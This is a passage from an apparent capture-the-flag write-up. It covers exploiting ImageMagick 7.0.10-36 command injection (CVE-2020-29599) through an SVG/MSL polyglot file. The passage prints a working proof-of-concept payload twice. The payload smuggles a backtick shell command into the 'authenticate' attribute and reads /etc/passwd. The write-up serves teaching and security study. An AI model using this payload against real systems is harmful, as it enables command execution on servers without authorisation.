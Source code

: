 
    www-data@meta:/dev/shm$ mogrify -version
    Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
    Copyright: © 1999-2020 ImageMagick Studio LLC
    License: https://imagemagick.org/script/license.php
    Features: Cipher DPC HDRI OpenMP(4.5) 
    Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib



Goolging for "mogrify CVE" doesn't find much interesting, but searching
for "imagemagick 7.0.10-36 exploit" finds many posts talking about XML
injection,
[CVE-2020-29599](https://www.cybersecurity-help.cz/vdb/SB2020121303).

### mogrify Command Injection

#### Background

It was a bit trickier to find, but [this
post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.md)
has all the details of this exploit. The author creates a SVG/MSL
[polyglot
file](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a).
A polyglot is a file that is valid for two different file specifications
(I have found memories of [HackVent 2020 day
20](/hackvent2020/leet#hv2020), where I was given a file that was both
valid HTML and valid PNG).

In this case, it's valid as both a scalable vector graphic (SVG) file
and a ImageMagick Scripting Language (MSL) file. The POC is:



    <image authenticate='ff" `echo $(id)> ./0wned`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
      <image xlink:href="msl:poc.svg" height="100" width="100"/>
      </svg>
    </image>



There's a command injection in backticks in the first line.

#### POC

To test if this works, I'll change the payload slightly to output a file
in `/dev/shm` (to not make a mess of the web folder):



    <image authenticate='ff" `echo $(id)> /dev/shm/.0xdf`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
      <image xlink:href="msl:poc.svg" height="100" width="100"/>
      </svg>
    </image>
